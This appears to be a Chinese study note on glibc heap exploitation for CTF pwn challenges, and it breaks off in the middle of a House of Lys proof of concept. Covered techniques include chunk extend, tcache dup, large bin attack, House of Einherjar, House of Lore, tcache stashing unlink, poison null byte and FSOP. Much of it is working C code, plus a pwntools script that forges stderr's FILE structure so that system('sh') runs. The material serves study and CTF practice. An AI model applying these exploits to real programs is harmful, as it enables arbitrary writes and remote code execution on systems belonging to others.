这回我们让创建堆块的大小不在fastbin范围内，这样被free的堆块就会进入unsorted bin而不是fastbin。

```c
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x80);//分配第一个 0x80 的chunk1
    malloc(0x10); //分配第二个 0x10 的chunk2
    malloc(0x10); //防止与top chunk合并

    *(int *)((int)ptr-0x8)=0xb1;
    free(ptr);
    ptr1=malloc(0xa0);
}
```

在这个例子中，因为分配的 size 不处于 fastbin 的范围，因此在释放时如果与 top chunk 相连会导致和 top chunk 合并。所以我们需要额外分配一个 chunk，把释放的块与 top chunk 隔开。篡改后如下：

```
0x602000:   0x0000000000000000  0x00000000000000b1 <===chunk1 篡改size域
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000000  0x0000000000000021 <=== chunk2
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000000021 <=== 防止合并的chunk
0x6020c0:   0x0000000000000000  0x0000000000000000
0x6020d0:   0x0000000000000000  0x0000000000020f31 <=== top chunk
```

释放后，chunk1 与 chunk2 合并，一起置入 unsorted bin。

```
0x602000:   0x0000000000000000  0x00000000000000b1 <=== 被放入unsorted bin
0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000000  0x0000000000000021
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x00000000000000b0  0x0000000000000020 <=== 注意此处标记为空
0x6020c0:   0x0000000000000000  0x0000000000000000
0x6020d0:   0x0000000000000000  0x0000000000020f31 <=== top chunk
```

再次进行分配的时候就会取回 chunk1 和 chunk2 的空间，此时我们正常编辑就可以控制 chunk2 中的内容。

### 基本示例 3：对 free 的 smallbin 进行 extend

示例 3 是在示例 2 的基础上进行的，这次我们先释放 chunk1，然后再修改处于 unsorted bin 中的 chunk1 的 size 域。

```c
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x80);//分配第一个0x80的chunk1
    malloc(0x10);//分配第二个0x10的chunk2

    free(ptr);//首先进行释放，使得chunk1进入unsorted bin

    *(int *)((int)ptr-0x8)=0xb1;
    ptr1=malloc(0xa0);
}
```

malloc后（未free，未修改前）：

```
0x602000:   0x0000000000000000  0x0000000000000091 <=== chunk 1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000000  0x0000000000000021 <=== chunk 2
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000020f51
```

释放chunk1后：

```
     unsorted_bins[0]: fw=0x602000, bk=0x602000
 →   Chunk(addr=0x602010, size=0x90, flags=PREV_INUSE)

0x602000:   0x0000000000000000  0x0000000000000091 <=== 进入unsorted bin
0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000090  0x0000000000000020 <=== chunk 2
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000020f51 <=== top chunk
```

篡改chunk1的size：

```
0x602000:   0x0000000000000000  0x00000000000000b1 <=== size域被篡改
0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000090  0x0000000000000020
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000020f51
```

此时再进行 malloc 分配就可以得到 chunk1+chunk2 的堆块，从而控制了 chunk2 的内容。能发现示例2和3基本一致，只是告诉我们free后的堆块不影响我们发挥。

一般来说，这种技术并不能直接控制程序的执行流程，但是可以控制 chunk 中的内容。如果 chunk 存在字符串指针、函数指针等，就可以利用这些指针来进行信息泄漏和控制执行流程。比如把chunk的任何字符串、函数、另一个堆块的指针改为free_got，然后编辑修改为system。

此外通过 extend 可以实现 chunk overlapping，通过 overlapping 可以控制 chunk 的 fd/bk 指针从而可以实现 fastbin attack 等利用。

## [Tcache](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/implementation/tcache/)

tcache 是 glibc 2.26 (ubuntu 17.10) 之后引入的一种技术，目的是提升堆管理的性能。但提升性能的同时舍弃了很多安全检查，也因此有了很多新的利用方式。在学习Tcache attack之前，最好看一下tcache的机制。

tcache 引入了两个新的结构体，tcache_entry 和 tcache_perthread_struct。

#### tcache_entry

```c
/* We overlay this structure on the user-data portion of a chunk when
   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;
```

tcache_entry 用于链接空闲的 chunk 结构体，其中的 next 指针指向下一个大小相同的 chunk。

需要注意的是这里的 next 指向 chunk 的 user data，而 fastbin 的 fd 指向 chunk 开头的地址。

而且，tcache_entry 会复用空闲 chunk 的 user data 部分。

#### tcache_perthread_struct

```c
/* There is one of these for each thread, which contains the
   per-thread cache (hence "tcache_perthread_struct").  Keeping
   overall size low is mildly important.  Note that COUNTS and ENTRIES
   are redundant (we could have just counted the linked list each
   time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

# define TCACHE_MAX_BINS                64

static __thread tcache_perthread_struct *tcache = NULL;
```

每个 thread 都会维护一个 tcache_perthread_struct，它是整个 tcache 的管理结构，一共有 TCACHE_MAX_BINS 个计数器和 TCACHE_MAX_BINS项 tcache_entry，其中

- tcache_entry 用单向链表的方式链接了相同大小的处于空闲状态（free 后）的 chunk，这一点和 fastbin 很像。
- counts 记录了 tcache_entry 链上空闲 chunk 的数目，每条链上最多可以有 7 个 chunk。

### 基本工作方式

第一次malloc时，系统会自动malloc另一块内存用来存放 tcache_perthread_struct。如果后续我们free一块size小于small bin size的堆块，在tcache之前堆块会被放入fastbin或者unsorted bin，现在有了tcache后：

- 先放到对应的 tcache 中，直到 tcache 被填满（默认是 7 个）
- tcache 被填满之后，再次 free 的内存和之前一样被放到 fastbin 或者 unsorted bin 中
- tcache 中的 chunk 不会合并（不取消 inuse bit）

malloc堆块时，如果size在tcache范围内，则先从tcache 取 chunk，直到 tcache 为空。tcache 为空后，再从各种 bin 中找。另外，当tcache 为空时，如果 fastbin/smallbin/unsorted bin 中有 size 符合的 chunk，会先把 fastbin/smallbin/unsorted bin 中的 chunk 放到 tcache 中，直到填满。之后取堆块又会从 tcache 中取了。因此 chunk 在 bin 中和 tcache 中的顺序会反过来。

可以看出tcache的优先级非常高，“单向链表”和“不会合并”这两点和fastbin相似，但是“青出于蓝而胜于蓝”，不仅优先级比 fastbin 要高，还开创了“抢堆块”这一壮举，空的时候会从出large bin以外的bin抢堆块。

之后一些源码部分就不记录了，检查很少，真的很少，下面就来看看tcache能干啥。

## [Tcache attack](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/tcache-attack/)

释放堆块时，free函数首先检查释放块是否页对齐及前后堆块的释放情况，接着堆块被优先放入 tcache 结构中。

申请堆块时，malloc函数中有多处会将内存块移入 tcache 中。

1. 申请的内存块符合 fastbin 大小时并且在 fastbin 内找到可用的空闲块时，会把该 fastbin 链上的其他内存块放入 tcache 中。
2. 其次，申请的内存块符合 smallbin 大小时并且在 smallbin 内找到可用的空闲块时，会把该 smallbin 链上的其他内存块放入 tcache 中。
3. 当在 unsorted bin 链上循环处理时，当找到大小合适的链时，并不直接返回，而是先放到 tcache 中，继续处理。

然后就是从tcache取出堆块。在内存申请的开始部分，首先会判断申请大小块在 tcache 中是否存在，如果存在就直接从 tcache 中摘取，否则再使用_int_malloc 分配。在循环处理 unsorted bin 内存块时，如果达到放入 unsorted bin 块最大数量，会立即返回。默认是 0，即不存在上限。在循环处理 unsorted bin 内存块后，如果之前放入过 tcache 块，则会取出一个并返回。

#### tcache dup

跟fastbin dup（就是fastbin double free）差不多，甚至比fastbin还好利用。fastbin好歹还有检查，tcache直接不演了，啥检查都没有，随时可以对同一个chunk多次free，形成循环列表。

以 how2heap 的 tcache_dup 为例分析，源码如下：
```c
glibc_2.26 [master●] bat ./tcache_dup.c 
───────┬─────────────────────────────────────────────────────────────────────────────────
       │ File: ./tcache_dup.c
───────┼─────────────────────────────────────────────────────────────────────────────────
   1   │ #include <stdio.h>
   2   │ #include <stdlib.h>
   3   │ 
   4   │ int main()
   5   │ {
   6   │         fprintf(stderr, "This file demonstrates a simple double-free attack with
       │  tcache. 该文件演示tcache下简单的double-free攻击\n");
   7   │ 
   8   │         fprintf(stderr, "Allocating buffer. 分配堆块\n");
   9   │         int *a = malloc(8);
  10   │ 
  11   │         fprintf(stderr, "malloc(8): %p\n", a);
  12   │         fprintf(stderr, "Freeing twice... 二次free...\n");
  13   │         free(a);
  14   │         free(a);
  15   │ 
  16   │         fprintf(stderr, "Now the free list has 现在free列表有 [ %p, %p ].\n", a, a);
  17   │         fprintf(stderr, "Next allocated buffers will be same: 接下来分配到的2个堆块将是一样的 [ %p, %p ].\n", ma
       │ lloc(8), malloc(8));
  18   │ 
  19   │         return 0;
  20   │ }
───────┴─────────────────────────────────────────────────────────────────────────────────
```
没错就是这么简单，free同一个堆块多少次程序都不会崩，根本就没有任何检查。不过double free就足够将其中一个堆块的fd指向自己了，多次free没啥实际意义。

## [Large Bin Attack](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/large-bin-attack/)

效果：在两个任意地址处同时写入一个堆地址
```c
//https://www.cnblogs.com/damoxilai/p/16380750.html
//适用版本：< glibc 2.30
#include<stdio.h>
#include<stdlib.h>
int main()
{
   	unsigned long stack_var1 = 0;
	unsigned long stack_var2 = 0;
	unsigned long *p1 = malloc(0x320);
	malloc(0x20); //防止与下面的chunk合并
	unsigned long *p2 = malloc(0x400);
	malloc(0x20);
	unsigned long *p3 = malloc(0x400);
	malloc(0x20);
	free(p1);
	free(p2); //都进unsorted bin，遵循先进先出
	void* p4 = malloc(0x90); //切割p1 0x90空间作为malloc返回的内存，剩下的继续在unsorted bin。p2则根据大小进入large bin
	free(p3); //p3进unsorted bin
	p2[-1] = 0x3f1; //size
	p2[0] = 0; //fd
	p2[1] = (unsigned long)(&stack_var1 - 2); //bk
	p2[2] = 0; //fd_nextsize
	p2[3] = (unsigned long)(&stack_var2 - 4); //bk_nextsize
	malloc(0x90); //修改stack_var1和stack_var2的值为p3的地址
	return 0;
}
```
效果：在任意地址处写入一个堆地址
```c
//https://github.com/shellphish/how2heap/blob/master/glibc_2.36/large_bin_attack.c
//适用版本：>= glibc 2.30
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>
int main(){
  size_t target = 0;
  size_t *p1 = malloc(0x428);
  size_t *g1 = malloc(0x18); //防止与下面的chunk合并
  size_t *p2 = malloc(0x418);
  size_t *g2 = malloc(0x18);
  free(p1); //进unsorted bin
  size_t *g3 = malloc(0x438); //大小大于p1，p1不会被分割，直接进large bin
  free(p2); //unsorted bin
  p1[3] = (size_t)((&target)-4); //修改p1->bk_nextsize为target-0x20。这里(&target)-4)是因为target是size_t，8字节，它的地址-4就是4*8=0x20
  size_t *g4 = malloc(0x438); //分配一个大于p2的chunk。target现在为p2 chunk的地址
  return 0;
}
```

## [House Of Einherjar](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-einherjar/)

效果：使malloc返回一个几乎任意地址的chunk。前提：
- 需要有溢出漏洞可以写物理相邻的高地址的 prev_size 与 PREV_INUSE 部分（off by one是可能的，特殊大小的堆块会复用下一个堆块的prev_size作为data，同时off by one修改PREV_INUSE）。
- 需要计算目的 chunk 与 p1 地址之间的差，所以需要泄漏地址。
- 需要在目的 chunk 附近构造相应的 fake chunk，从而绕过 unlink 的检测

与chunk extend/shrink比较类似，后者也是off by one/null常使用的技巧
```c
//https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_einherjar.c
//<= glibc 2.27
/* 总结：
1. 目标地址构造fake chunk
2. 两个物理相邻的chunk a和b，a有off by null漏洞，可溢出到b的size。同时因为a的大小特殊，b的prev_size是a user data的一部分
3. 计算prev_size大小，用于free b时的向后合并拿到目标地址
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>
#include <assert.h>
int main()
{
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");
	uint8_t* a;
	uint8_t* b;
	uint8_t* d;
	a = (uint8_t*) malloc(0x38);
	int real_a_size = malloc_usable_size(a);
	printf("Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);
	// create a fake chunk
	printf("\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
	printf("However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
	printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
	printf("(although we could do the unsafe unlink technique here in some scenarios)\n");
	size_t fake_chunk[6];
	fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
	fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
	fake_chunk[2] = (size_t) fake_chunk; // fwd，绕unlink
	fake_chunk[3] = (size_t) fake_chunk; // bck
	fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
	fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0x4f8);
	int real_b_size = malloc_usable_size(b);
	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
	/* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/
	printf("\nb.size: %#lx\n", *b_size_ptr);
	printf("b.size is: (0x500) | prev_inuse = 0x501\n");
	printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
	/* VULNERABILITY */
	a[real_a_size] = 0; //改物理相邻的b chunk的size的最后一位为0
	/* VULNERABILITY */
	printf("b.size: %#lx\n", *b_size_ptr);
	printf("This is easiest if b.size is a multiple of 0x100 so you "
		   "don't change the size of b, only its prev_inuse bit\n");
	printf("If it had been modified, we would need a fake chunk inside "
		   "b where it will try to consolidate the next chunk\n");
	// Write a fake prev_size to the end of a
	printf("\nWe write a fake prev_size to the last %lu bytes of a so that "
		   "it will consolidate with our fake chunk\n", sizeof(size_t));
	size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk); //计算大小。free时向后合并的操作利用prev_size来计算上一个chunk在哪。所以我们计算b到fake_chunk的偏移
	printf("Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
	*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size; //然后把chunk b的prev_size写为刚刚计算的偏移（在a这里写是因为分配的chunk的大小较为特殊，prev_size是chunk a的user data的一部分）
	//Change the fake chunk's size to reflect b's new prev_size
	printf("\nModify fake chunk's size to reflect b's new prev_size\n");
	fake_chunk[1] = fake_size; //fake chunk的size也相应地改为刚刚计算的大小
	// free b and it will consolidate with our fake chunk
	printf("Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
	free(b); //free后向后合并，bin里的地址就变为了合并后的地址。因为偏移是精心计算好的，合并后的地址为fake chunk的地址
	printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);
	//if we allocate another chunk before we free b we will need to 
	//do two things: 
	//1) We will need to adjust the size of our fake chunk so that
	//fake_chunk + fake_chunk's size points to an area we control
	//2) we will need to write the size of our fake chunk
	//at the location we control. 
	//After doing these two things, when unlink gets called, our fake chunk will
	//pass the size(P) == prev_size(next_chunk(P)) test. 
	//otherwise we need to make sure that our fake chunk is up against the
	//wilderness
	d = malloc(0x200); //malloc即可获得fake chunk
	printf("Next malloc(0x200) is at %p\n", d);
	assert((long)d == (long)&fake_chunk[2]);
}
```
2.31及以后的用法直接看how2heap里的[介绍]((https://github.com/shellphish/how2heap/blob/master/glibc_2.36/house_of_einherjar.c))就能懂，这里就不再抄一遍了。总结：
- 介绍里提到的patch是safe linking，不仅让tcache poisoning需要加密fd才能往上写，还导致目标地址不能随便选，需要与16对齐（&0xf==0）
- 需要3个chunk a，b和c（unsorted bin大小），a用作构造fake chunk（与2.27不同，它不是目标地址，是最后做tcache poisoning中间的媒介）；b是off by null漏洞发生的chunk，溢出到物理相邻的chunk c的size，prev_size同样因为大小特殊可在user data里直接控制
- 计算c与a直接地址的差值，作为fake prev_size。同时a的size也相应地改成fake prev_size
- 申请并free 7个与c同样大小的堆块，填满tcache。此时free c就会向后合并，成为a的地址。下一次malloc就能拿到a
- 开始tcache poisoning。申请一个pad并free（和b一个大小，似乎是tcache对应的大小里有两个chunk才能开始tcache poisoning），然后free b
- 由于a和c中间夹着b，所以这里是个chunk overlapping。地址a的chunk包含了地址b的chunk。那么此时在d那里找准b的metadata的位置就能更改b的fd为target。别忘了safe linking
- 最后malloc b相同的大小就能得到target

## [House of Lore](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-lore/)

效果：分配任意指定位置的 chunk，从而修改任意地址的内存

使用前提：该攻击与Glibc 堆管理中的 Small Bin 的机制紧密相关，因此需要控制Small Bin Chunk 的 bk 指针，并且控制指定位置 chunk 的 fd 指针

这个攻击有两种，以2.27作为分水岭（因为2.27加了tcache）。总之2.27以前攻击方法一样，2.27以后攻击方法稍微改了一下，一直到2.36都能用。这里考虑2.27以后的poc，参考 https://github.com/shellphish/how2heap/blob/master/glibc_2.36/house_of_lore.c 作如下总结：
- victim是发生漏洞的chunk，构造两个fake chunk a（目标地址）和b和一个fake_freelist。同时准备7个和victim相同大小的chunk用于填充tcache。fake_freelist结构及构造：
```c
void* fake_freelist[7][4];
for(int i=0; i<6; i++) {
    fake_freelist[i][3] = fake_freelist[i+1];
}
fake_freelist[6][3] = NULL;
```
- 将a的bk设置为b，b的fd设置为a，b的bk设置为fake_freelist。用来绕过small bin的机制
- 分配一个large chunk防止free small bin时与top chunk合并，同时free之前准备的7个chunk填充满tcache。然后free victim，victim进入unsorted bin。继续malloc，满足分配的chunk的大小既不能被unsorted bin处理，也不能被small bin处理（1200）。这个时候由于分配的大小比victim大，无法从victim身上切割出空间，便只能从top chunk上去内存，victim进入small bin
- 漏洞点：将victim的bk改为fake chunk a
- malloc 7个0x100 chunk，清空tcache。然后再malloc 0x100大小的chunk，触发漏洞。最后再malloc一个0x100大小的chunk，即可获取a

## [tcache_stashing_unlink_attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/tcache_stashing_unlink_attack.c)

难得一个从2.27 tcache出现开始，一直到how2heap目前的2.36，自始至终攻击手段没有变化的漏洞。

效果：获取任意地址处的chunk，且能泄露libc地址。前提条件：
- 可以覆盖victim的bk
- 可以绕过tcache直接从small bin里取chunk（使用calloc）
- 任意地址处可写，可以提前在里面布置指针来绕过检查

步骤：
- 在目标地址处伪造chunk a。a->bk=a->fd,对应how2heap里的`stack_var[3] = (unsigned long)(&stack_var[2])`。攻击成功后stack_var[4]会有libc地址
- 分配9个0x90的chunk 0-8。将chunk1和chunk 3-8放入tcache，chunk 0和chunk 2进入small bin（将它们分开是因为物理相邻的unsorted bin会合并
- 分配一个大于0x90的chunk（如0xa0），这样chunk 0和chunk2会被放入small bin。再malloc两个0x90的chunk，让tcache腾出两个位置
- 漏洞点：将chunk 2的bk改为fake chunk的地址`stack_var`
- 使用calloc分配0x90的chunk。fake chunk也被链入tcache。现在再分配0x90就能获得fake chunk（`stack_var[2]`，因为返回的是chunk的fd地址）

## [poison_null_byte(off by null)](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/poison_null_byte.c)

经典2.27分水岭。其实2.27和2.24也不一样，但也没完全变样，动了些偏移而已。2.27和2.36真就是天差地别了

效果：实现chunk overlapping。前提条件：能够溢出malloc的chunk一字节（这里是null字节，不受限制的一字节肯定更自由）

[2.36](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/poison_null_byte.c)步骤：
- 分配一个很大的padding chunk，这样后续fake chunk的地址的后两个字节就是`\x00`，方便利用。padding chunk size计算：`0x10000-(addr_of_first_chunk(size 0x10)&0xffff)-0x20`,heap base为`addr_of_first_chunk(size 0x10) & (~0xfff)`。如果不分配这个padding就要爆破最后两个字节
- 分配两个物理相邻的chunk prev（0x500）和victim（0x4f0）。然后分配一个0x10的chunk防止合并
- 分配chunk a（0x4f0，比prev稍微小点）；分配0x10 chunk防止合并；分配chunk b（0x510，比prev稍微大点）；分配0x10 chunk防止合并。此时heap的layout应该为：
```
... ...
padding
prev Chunk(addr=0x??0010, size=0x510)
victim Chunk(addr=0x??0520, size=0x500)
barrier Chunk(addr=0x??0a20, size=0x20)
a Chunk(addr=0x??0a40, size=0x500)
barrier Chunk(addr=0x??0f40, size=0x20)
b Chunk(addr=0x??0f60, size=0x520)
barrier Chunk(addr=0x??1480, size=0x20)
```
free a，b和prev，全部进入unsorted bin：`header <-> [prev, size=0x510] <-> [b, size=0x520] <-> [a, size=0x500]`。然后分配一个很大的chunk（0x1000），让a，b和prev全部进入large bin同时排序：`header <-> [b, size=0x520] <-> [prev, size=0x510] <-> [a, size=0x500]`
- malloc(0x500)将prev再取出来用于构造fake chunk。由于large bin里排序了且b比prev大，a比prev小，正好能拿到prev。fake chunk在prev内部，比prev小0x10.所以其size是0x501(0x510-0x10 | flag)（从prev开始构造，即prev[1]=0x501。会比prev真正的结尾短0x10）。然后构造next_chunk的prev_size为0x500，用于绕过过滤（(prev + 0x500) = 0x500）。fake chunk的地址是prev + 0x10，其fd为a，bk为b（之前把它们free进去就是为了挂上fd和bk）
- malloc(0x510)拿出b。刚才把prev拿出来时，b的fd被改成了a，现在也没变。将后两个字节改成0x0010，即fake chunk。若倒数第二个字节不是`\x00`，就需要爆破。接着malloc(0x4f0)拿出a再free放进unsorted bin，然后free victim。这样a的bk就是victim了。接着取出a，将a的bk覆盖为0x0010，即fake chunk。这些步骤都是为了绕过unlink
- malloc(0x4f0)将victim从unsorted bin中拿出。漏洞点：off by null将victim的size的最后一字节改为`\x00`(应该是从prev溢出，比如edit函数，因为prev在victim上面。victim自己应该是没法溢出自己的)。free victim，libc会认为victim上面的prev也是free chunk，从而向后合并，执行unlink
- 此刻已出现chunk overlapping。prev chunk的最后0x10字节已与unlink后的fake chunk和victim覆盖在一起

## [House of Apple](https://bbs.kanxue.com/thread-273418.htm)

使用条件：
1. 程序从 main 函数返回或能调用 exit 函数
2. 能泄露出 heap 地址和 libc 地址
3. 能使用一次 largebin attack（一次即可）

## FSOP

FSOP为File Stream Oriented Programming的缩写，通常认为是通过伪造常见文件结构来劫持程序控制流的一种方法。由于不同libc版本的具体实现细节不同，FSOP的具体利用方式也不同。本文将基于2.30版本及以上的libc，尝试总结出简单直白的用法，不涵盖具体原理

在正式开始之前，需要提一下如何获取libc里部分符号，变量等内容在libc里的偏移。前往 https://ftp.gnu.org/gnu/glibc/ ，下载需要版本的libc的tar.xz包，解压后参考 https://www.cnblogs.com/7resp4ss/p/17300224.html#poc 里提到的做法进行编译。接下来用命令`gdb libc.so.6`打开gdb，此时gdb应该可以从文件中读取debug symbol。那么就可以用`p &name_of_symbol`获取指定symbol的偏移了。例如想要获取`_IO_obstack_jumps`的偏移，就运行`p &_IO_obstack_jumps`。这种做法的好处在于可以查看那些未被导出的symbol的偏移。可以在 https://elixir.bootlin.com/glibc/glibc-2.34/source 获取全部版本的libc的源码

第一种做法来自nobodyisnobody的[总结](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc)

利用前提：
- 已知程序libc基地址
- 伪造文件结构后可将该结构整体写入libc的stdout

测试时所使用的libc版本：2.38

然后是几乎所有研究高版本fsop的大佬们都会提到的[House of Apple2](https://bbs.kanxue.com/thread-273832.htm)。个人尝试了文中`_IO_wdefault_xsgetn`的函数利用demo，分别用不同版本的libc进行测试。尝试了2.37，2.35，2.27，均在中间修改stderr时Segmentation fault。唯一修改stderr成功的版本的是2.31，但是未见到backdoor函数输出。后续尝试将stderr换成stdout，backdoor函数改为调用system，均未见到backdoor函数被调用的迹象。[House of apple3](https://bbs.kanxue.com/thread-273863.htm) 只试了2.31，也是脚本执行成功但未简单backdoor函数调用的迹象。如果有能复现成功的大佬请指点迷津

不过我复现成功了House of Apple2里提到的`_IO_wfile_overflow`调用链

利用前提：
- 已知程序libc基地址
- 伪造文件结构后可将该结构整体写入libc的stderr
- 至少需要控制两个堆块并知晓其堆地址

参考链接：
- https://bbs.kanxue.com/thread-273832.htm#msg_header_h3_0
- https://chovid99.github.io/posts/wanictf-2023/#copy--paste

示例脚本（改编自 https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/prog.c 和 https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/exp_fsop.py ）:
```c
//gcc fsop.c -o fsop
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
//------------change------------
void fake(){
    char *fakeWideData = calloc(0x200, 1);
    char *fakeWideVtable = calloc(0x200, 1);
    *(size_t *)(fakeWideVtable + 0x68) = (size_t)system;
    *(size_t *)(fakeWideData + 0xe0) = (size_t)fakeWideVtable;
    printf("fake wide_data: %p\n", fakeWideData);
}
//------------change------------
static void setup() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}
uint64_t getint(char *msg)
{
    char buf[64];
	printf("%s", msg);
	fgets(buf,64,stdin);
	return strtoul(buf,0,10);
}
int main()
{
    uint64_t choice;
    uint64_t addr;
    uint64_t size;
	setup();
	fake();
	printf("libc stdout leak: %p\n", stdout);
	while(1)
	{
		puts("1. write data to addr");
		puts("2. exit");
		choice = getint("choice> ");
		if (choice == 2)
			break;
		else if (choice == 1)
		{
			addr = getint("address> ");
			size = getint("size> ");
			printf("data> ");
			fread((void *)addr,size,1,stdin);
		}
		else
			continue;
	}
	return(0);
}
```
```py
from pwn import *
context.update(arch="amd64", os="linux")
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  if (d2):
    return p.recvuntil(d2,drop=True)
libc = ELF('libc.so.6')
p=process("./fsop")
def write(addr, data):
  sla('choice> ', '1')
  sla('> ', str(addr))
  sla('size> ', str(len(data))+'\x00')
  sa('data> ', data)
#------------change------------
fake_wide_data_addr=int(rcu('wide_data: ','\n'),16)
libc.address = int(rcu('leak: ','\n'),16)-libc.sym['_IO_2_1_stdout_']
fake_stderr                = FileStructure(0)
fake_stderr.flags          = u64(b'  sh\x00\x00\x00\x00')
fake_stderr._IO_write_base = 0
fake_stderr._IO_write_ptr  = 0x1
fake_stderr._wide_data     = fake_wide_data_addr
fake_stderr.vtable         = libc.symbols['_IO_wfile_jumps']
write(libc.sym['_IO_2_1_stderr_'],bytes(fake_stderr))
sla('choice> ', '2')
p.interactive()
#------------change------------
```
测试时所使用的libc版本：2.35

以上做法均通过完全修改stderr实现RCE，事实上只劫持`_IO_list_all`也可以达到同样的效果。比如接下来介绍的[house of Lys](https://www.cnblogs.com/7resp4ss/p/17486261.html)

利用前提：
- 已知程序libc基地址
- 可完全控制一个堆块并知晓其地址；能操控程序往指定地址写入该堆块的地址

将上方示例脚本由`------------change------------`包裹的代码更换为以下内容，即为house of Lys的poc：
```c
#define writeend_offset 0x30
#define writeptr_offset 0x28
#define vtable_offset 0xd8
#define next_free_offset 0x18 
#define chunk_limit_offset 0x20
#define caller_offset 0x38
#define caller_arg_offset 0x48
#define use_arg_offset 0x50
#define fake_obstack_offset 0xe0
void fake()
{
    size_t libc_base = &puts - 0x788a0;
    size_t _IO_obstack_jumps_prt = libc_base + 0x1ef320;
    void *ptr;
    ptr=malloc(0x200);
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writeend_offset)=0x0;
    *(long long*)((long long)ptr+next_free_offset)=0x1;
    *(long long*)((long long)ptr+chunk_limit_offset)=0x0;
    *(long long*)((long long)ptr+use_arg_offset)=0x1;
    *(long long*)((long long)ptr+fake_obstack_offset)=(long long*)ptr;
